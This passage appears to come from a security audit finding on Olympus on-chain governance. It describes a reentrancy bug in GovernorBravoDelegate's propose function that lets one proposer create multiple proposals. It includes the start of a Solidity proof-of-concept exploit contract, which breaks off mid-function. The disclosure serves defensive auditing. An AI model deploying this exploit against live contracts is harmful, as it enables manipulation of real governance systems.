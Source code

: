 Once the proposal is created, the value in the [`latestProposalIds`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L190) mapping is updated. The issue is that before this update, the [`_isHighRiskProposal`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L169) function is executed, allowing reentrancy through a call to [`configureDependencies`](https://github.com/sherlock-audit/2024-01-olympus-on-chain-governance/blob/main/bophades/src/external/governance/GovernorBravoDelegate.sol#L655-L656) of the provided target address. This can be exploited by an attacker who creates a proposal that reenters the `propose` function before the `latestProposalIds` mapping is updated, thereby creating additional proposals

The following proof of concept demonstrates the creation of 12 proposals by a single proposer:

`ReentrancyExploit` contract:
```solidity
contract ReentrancyExploit {
    using Address for address;

    GovernorBravoDelegator governorBravoDelegator;
    Kernel kernel;
    
    uint256 depth = 0;

    function attack(GovernorBravoDelegator _governorBravoDelegator, Kernel _kernel) external {
        governorBravoDelegator = _governorBravoDelegator;
        kernel = _kernel;
        
        // Proposal 1
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);
        string memory description = "Proposal 1";
        
        targets[0] = address(kernel);
        values[0] = 0;
        signatures[0] = "";
        calldatas[0] = abi.encodeWithSelector(
            kernel.executeAction.selector,
            Actions.ActivatePolicy,
            address(this)
        );
    
        bytes memory data = address(governorBravoDelegator).functionCall(
            abi.encodeWithSignature(
                "propose(address[],uint256[],string[],bytes[],string)",
                targets,
                values,
                signatures,
                calldatas,
                description
            )
        );

        uint256 proposalId = abi.decode(data, (uint256));
        console2.log("created proposal", proposalId);
    }

    function configureDependencies() external returns (Keycode[] memory dependencies) {
        console2.log("reentrancy");

        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        string[] memory signatures = new string[](1);
        bytes[] memory calldatas = new bytes[](1);
        string memory description = "Proposal 2";
```